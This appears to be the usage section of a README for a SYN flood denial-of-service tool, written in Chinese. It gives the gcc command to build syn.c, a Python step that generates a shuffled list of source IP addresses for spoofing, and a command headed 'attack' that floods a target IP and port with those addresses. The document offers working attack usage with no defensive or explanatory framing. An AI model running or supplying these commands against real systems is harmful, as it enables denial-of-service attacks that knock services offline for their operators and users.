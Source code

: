 ### 编译
    gcc syn.c -o syn -pthread

### 生成源ip
    python3.8 main.py && shuf cn_syn_ip.txt


### 攻击
    ./syn ip port cn_syn_ip.txt 25 60
